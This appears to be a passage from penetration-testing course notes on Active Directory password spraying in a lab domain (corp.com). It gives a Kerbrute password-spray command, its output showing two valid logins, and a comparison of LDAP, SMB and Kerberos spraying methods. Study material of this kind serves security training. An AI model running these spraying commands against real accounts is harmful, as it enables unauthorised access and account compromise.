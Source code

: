 **SMB Method Characteristics:**
- **High Network Noise**: Full SMB connection establishment per attempt
- **Slower Performance**: Connection overhead impacts attack speed
- **Administrative Detection**: "Pwn3d!" indicator shows local admin rights
- **No Policy Awareness**: Does not check account lockout policies

### Kerberos-Based Password Spraying with Kerbrute

**Kerberos Pre-Authentication Attack:**
Kerbrute leverages Kerberos AS-REQ requests to validate credentials with minimal network traffic (only 2 UDP frames per attempt).

**User List Preparation:**
```powershell
# Create username list
type .\usernames.txt
pete
dave
jen
```

**Kerbrute Execution:**
```powershell
# Execute Kerberos-based password spray
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

**Attack Output:**
```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

**Kerberos Method Advantages:**
- **Minimal Network Traffic**: Only AS-REQ and AS-REP packets
- **High Speed**: Fastest password spraying method
- **KDC Direct Communication**: Bypasses intermediate authentication layers
- **Cross-Platform Support**: Available for Windows, Linux, and macOS

### Password Spraying Method Comparison

| Method | Tool | Network Noise | Speed | Admin Detection | Policy Awareness |
|--------|------|---------------|-------|-----------------|------------------|
| **LDAP** | Spray-Passwords.ps1 | Low | Medium | No | Yes |
| **SMB** | CrackMapExec | High | Slow | Yes | No |
| **Kerberos** | Kerbrute | Minimal | Fast | No | No |
